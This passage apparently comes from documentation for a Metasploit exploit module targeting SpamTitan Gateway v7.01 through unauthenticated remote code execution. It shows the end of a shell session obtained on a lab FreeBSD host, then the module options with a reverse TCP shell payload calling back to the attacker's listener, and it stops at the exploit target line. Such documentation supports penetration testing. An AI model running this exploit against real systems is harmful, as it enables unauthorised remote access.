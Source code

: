 ```
	media: Ethernet autoselect (1000baseT <full-duplex>)
	status: active
lo0: flags=8049<UP,LOOPBACK,RUNNING,MULTICAST> metric 0 mtu 16384
	options=600003<RXCSUM,TXCSUM,RXCSUM_IPV6,TXCSUM_IPV6>
	inet6 ::1 prefixlen 128
	inet6 fe80::1%lo0 prefixlen 64 scopeid 0x2
	inet 127.0.0.1 netmask 0xff000000
	inet 127.0.0.2 netmask 0xffffffff
	inet 127.0.0.3 netmask 0xffffffff
	nd6 options=21<PERFORMNUD,AUTO_LINKLOCAL>
^C
Abort session 1? [y/N]  y

[*] 172.16.60.101 - Command shell session 1 closed.  Reason: User exit
```

### SpamTitan Gateway v7.01 - target 1 (FreeBSD Dropper - x64)

```
msf exploit(freebsd/webapp/spamtitan_unauth_rce) > set target 1
target => 1
msf exploit(freebsd/webapp/spamtitan_unauth_rce) > show options

Module options (exploit/freebsd/webapp/spamtitan_unauth_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   ALLOWEDIP                   no        The IP address that will be allowed to query the injected `extend` command. This IP will be added to the SNMP configuration file on the target. This is typically this host IP address, but can be different if your are in a NAT'ed network. If not set, `LHOST` will be used instead. If `LHOST` is not set, it will default to `127.0.0.1`.
   COMMUNITY  BTMlXXtt         no        The SNMP Community String to use (random string by default)
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RETRIES    1                yes       SNMP Retries
   RHOSTS     172.16.60.101    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (UDP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path to SpamTitan
   TIMEOUT    1                yes       SNMP Timeout
   URIPATH                     no        The URI to use for this exploit (default is random)
   VERSION    1                yes       SNMP Version <1/2c>
   VHOST                       no        HTTP server virtual host


Payload options (bsd/x64/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   CMD    /bin/sh          yes       The command string to execute
   LHOST  172.16.60.1      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:
```